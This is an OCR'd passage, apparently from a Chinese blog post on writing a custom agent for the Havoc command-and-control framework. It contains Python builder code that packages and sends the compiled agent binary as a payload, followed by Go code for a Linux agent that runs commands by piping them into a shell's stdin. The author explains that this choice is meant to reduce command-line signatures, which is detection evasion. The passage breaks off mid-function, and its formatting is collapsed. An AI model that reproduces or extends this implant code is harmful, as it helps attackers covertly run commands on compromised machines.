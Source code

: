                             extension = ".exe" if os_type == "windows" else ""                        # Havoc-Agent-Handler_darwin_amd64                        # agent/dist/Havoc-Agent-Handler_windows_amd64.exe                        # agent/dist/Havoc-Agent-Handler_windows_amd64/Havoc-Agent-Handler_windows_amd64.exe                        folder = f"dist/{self.AgentName}_{os_type}_{arch}"                        filename = f"{dest_dir}/{folder}/{self.AgentName}{extension}"                        logging.info(f"[*] filename: {filename}")                        with open(filename, "rb") as f:                            data = f.read()                        self.builder_send_payload(config['ClientID'], self.AgentName + extension,                                                  data)                        shutil.rmtree(dest_dir)

 **命令执行的优化**

为了支持执行跨平台的命令，减少命令行的特征，我会考虑将CMD、Powershell、Bash这样的解释器进程创建起来，然后向STDIN写入命令来读取STDOUT获取结果。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func (agent *LinuxAgent) ExecuteScript(shell string, command string, timeout time.Duration) string {                         var cmd *exec.Cmd                
      
                             cmd = exec.Command(shell, "-")                
      
                             // 获取标准输入（stdin）管道                         stdin, err := cmd.StdinPipe()                         if err != nil {                                    return err.Error()                         }                
      
                             // 获取标准输出（stdout）管道                         stdout, err := cmd.StdoutPipe()                         if err != nil {                                    return err.Error()                         }                
      
                             // 启动进程                         err = cmd.Start()                         if err != nil {                                    return err.Error()                         }                
      
                             // 创建一个用于读取标准输出的读取器                         reader := bufio.NewReader(stdout)                
      
                             // 创建一个上下文，并设置超时时间                         ctx, cancel := context.WithTimeout(context.Background(), timeout)                         defer cancel()                
      
                             // 创建一个缓冲区，用于保存命令输出结果                         var outputBuf bytes.Buffer                
      
                             // 用于发送命令到标准输入的 goroutine                         go func() {                                    // 将命令字符串按行拆分，并逐行发送到标准输入                                    scanner := bufio.NewScanner(strings.NewReader(command))                                    for scanner.Scan() {                                               command := scanner.Text()                                               // 发送命令到标准输入                                               _, err := fmt.Fprintln(stdin, command+"\n")                                               if err != nil {                                                          log.Println(err)                                               }                                    }                                    // 关闭标准输入管道，表示输入结束                                    stdin.Close()                         }()                
      
                             // 用于读取命令输出结果并保存到缓冲区的 goroutine                         go func() {                                    // 读取命令输出结果并保存到缓冲区                                    for {                                               select {                                               case <-ctx.Done():                                                          return                                               default:                                                          line, err := reader.ReadString('\n')                                                          if err != nil && err != io.EOF {                                                                     return                                                          }                
      